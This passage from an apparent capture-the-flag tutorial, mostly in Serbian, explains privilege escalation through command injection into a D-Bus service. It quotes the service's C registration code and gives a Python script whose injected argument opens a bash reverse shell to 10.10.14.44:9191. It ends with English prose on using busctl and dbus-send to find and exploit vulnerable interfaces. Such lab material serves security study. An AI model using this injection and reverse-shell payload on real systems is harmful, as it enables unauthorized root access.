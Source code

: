 ### Iskoristite to

Na kraju ove stranice možete pronaći **kompletan C kod D-Bus aplikacije**. Unutar njega možete pronaći između linija 91-97 kako su **registrovane `D-Bus putanja objekta`** **i `ime interfejsa`**. Ove informacije će biti neophodne za slanje informacija preko D-Bus veze:

```c
/* Install the object */
r = sd_bus_add_object_vtable(bus,
&slot,
"/htb/oouch/Block",  /* interface */
"htb.oouch.Block",   /* service object */
block_vtable,
NULL);
```

Takođe, u liniji 57 možete videti da je **jedina registrovana metoda** za ovu D-Bus komunikaciju nazvana `Block` (_**Zato će u sledećem odeljku payloadi biti poslati objektu usluge `htb.oouch.Block`, interfejsu `/htb/oouch/Block` i nazivu metode `Block`**_):

```c
SD_BUS_METHOD("Block", "s", "s", method_block, SD_BUS_VTABLE_UNPRIVILEGED),
```

#### Python

Sledeći Python kod će poslati payload preko D-Bus konekcije metodi `Block` putem `block_iface.Block(runme)` (_napomena da je izvučen iz prethodnog dela koda_):

```python
import dbus
bus = dbus.SystemBus()
block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
runme = ";bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #"
response = block_iface.Block(runme)
bus.close()
```

#### busctl и dbus-send

The `busctl` and `dbus-send` commands are powerful tools for interacting with the D-Bus system. D-Bus is a message bus system that allows different applications to communicate with each other. These commands can be used for enumeration and command injection privilege escalation.

`busctl` is a command-line tool that allows you to introspect and interact with the D-Bus system. It can be used to list available services, objects, and interfaces, as well as call methods and inspect properties.

`dbus-send` is another command-line tool that allows you to send messages to the D-Bus system. It can be used to invoke methods on objects, set properties, and emit signals.

Both `busctl` and `dbus-send` can be used to discover vulnerable services and interfaces that can be exploited for privilege escalation. By enumerating the available services and objects, you can identify potential targets for further exploitation.

Additionally, these tools can be used to inject commands into vulnerable D-Bus interfaces. By crafting malicious method calls or property settings, you can execute arbitrary commands with the privileges of the targeted service or application.
